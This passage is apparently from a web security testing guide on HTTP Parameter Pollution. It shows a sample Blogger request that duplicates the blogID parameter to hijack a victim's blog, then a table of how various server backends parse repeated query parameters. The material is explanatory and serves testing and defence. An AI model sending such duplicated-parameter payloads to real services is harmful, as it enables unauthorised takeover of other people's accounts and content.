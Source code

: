 
### Authentication Bypass

An even more critical HPP vulnerability was discovered in *Blogger*, the popular blogging platform. The bug allowed malicious users to take ownership of the victim’s blog by using the following HTTP request (`https://www.blogger.com/add-authors.do`):

```html
POST /add-authors.do HTTP/1.1
[...]

security_token=attackertoken&blogID=attackerblogidvalue&blogID=victimblogidvalue&authorsList=goldshlager19test%40gmail.com(attacker email)&ok=Invite
```

The flaw resided in the authentication mechanism used by the web application, as the security check was performed on the first `blogID` parameter, whereas the actual operation used the second occurrence.

### Expected Behavior by Application Server

The following table illustrates how different web technologies behave in presence of multiple occurrences of the same HTTP parameter.

Given the URL and querystring: `https://example.com/?color=red&color=blue`

  | Web Application Server Backend | Parsing Result | Example |
  |--------------------------------|----------------|--------|
  | ASP.NET / IIS | All occurrences concatenated with a comma |  color=red,blue |
  | ASP / IIS     | All occurrences concatenated with a comma | color=red,blue |
  | .NET Core 3.1 / Kestrel | All occurrences concatenated with a comma | color=red,blue |
  | .NET 5 / Kestrel | All occurrences concatenated with a comma | color=red,blue |
  | PHP / Apache  | Last occurrence only | color=blue |
  | PHP / Zeus | Last occurrence only | color=blue |
  | JSP, Servlet / Apache Tomcat | First occurrence only | color=red |
  | JSP, Servlet / Oracle Application Server 10g | First occurrence only | color=red |
  | JSP, Servlet / Jetty  | First occurrence only | color=red |
  | IBM Lotus Domino | Last occurrence only | color=blue |
  | IBM HTTP Server | First occurrence only | color=red |
  | Node.js / express | First occurrence only | color=red |
  | mod_perl, libapreq2 / Apache | First occurrence only | color=red |
  | Perl CGI / Apache | First occurrence only | color=red |
  | mod_wsgi (Python) / Apache | First occurrence only | color=red |
  | Python / Zope | All occurrences in List data type | color=['red','blue'] |
